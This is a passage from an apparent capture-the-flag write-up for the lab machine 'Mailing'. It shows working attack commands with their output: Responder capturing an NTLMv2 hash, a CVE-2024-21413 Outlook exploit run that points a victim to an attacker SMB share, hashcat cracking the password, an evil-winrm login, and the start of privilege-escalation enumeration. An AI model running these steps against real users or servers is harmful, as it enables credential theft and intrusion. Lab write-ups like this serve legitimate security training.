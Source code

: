 ```

sudo responder -I tun0


---OUTPUT-AFTER-EXPLOIT---
[*] Incoming connection (10.10.11.14,56481)
[*] AUTHENTICATE_MESSAGE (MAILING\maya,MAILING)
[*] User MAILING\maya authenticated successfully
[*] maya::MAILING:aaaaaaaaaaaaaaaa:b02349cc429417426581536813713c85:01010000000000000079420ea1a8db01f91334e1fe3028a800000000010010005a00610046006f006400650075007100030010005a00610046006f00640065007500710002001000720063004f00760056006a006900590004001000720063004f00760056006a0069005900070008000079420ea1a8db01060004000200000008003000300000000000000000000000002000006896629cd37c6ec72f4970fef610ade3b1491047a428afd52ef768294fcad7730a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320035000000000000000000
[*] Connecting Share(1:IPC$)
[-] SMB2_TREE_CONNECT not found test
[-] SMB2_TREE_CONNECT not found test
[*] NetrGetShareInfo Level: 1
[-] SMB2_TREE_CONNECT not found test
[-] SMB2_TREE_CONNECT not found test
[*] NetrShareEnum Level: 1
```
			- Execute exploit:
				```bash
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password 'homenetworkingadministrator' --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.25\test\meeting" --subject Test

---OUTPUT---
CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de                                                          

✅ Email sent successfully.
```
				- We get a NTLMv2 hash
			- We attempt to crack it with hashcat
				```bash
vi maya.ntlmv2 # Copy the hash
hashcat maya.ntlmv2 /usr/share/wordlists/rockyou.txt

---OUTPUT---
MAYA::MAILING:aaaaaaaaaaaaaaaa:e6c06f19a87893ab8c7da4d906876af0:01010000000000008063c539a1a8db01ac9ee1f8cf2107f100000000010010005a00610046006f006400650075007100030010005a00610046006f00640065007500710002001000720063004f00760056006a006900590004001000720063004f00760056006a0069005900070008008063c539a1a8db01060004000200000008003000300000000000000000000000002000006896629cd37c6ec72f4970fef610ade3b1491047a428afd52ef768294fcad7730a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320035000000000000000000:m4y4ngs4ri
```
	- Password: m4y4ngs4ri
- evil-winrm into machine:
	```bash
evil-winrm -u maya -p m4y4ngs4ri -i mailing.htb
```
	- We gain user flag
## Privilege Escalation
- Under Program Files we find LibreOffice and we find version:
	```bash
cd C:\Progra~1
dir
cd LibreOffice
dir
cd program
type version.ini

```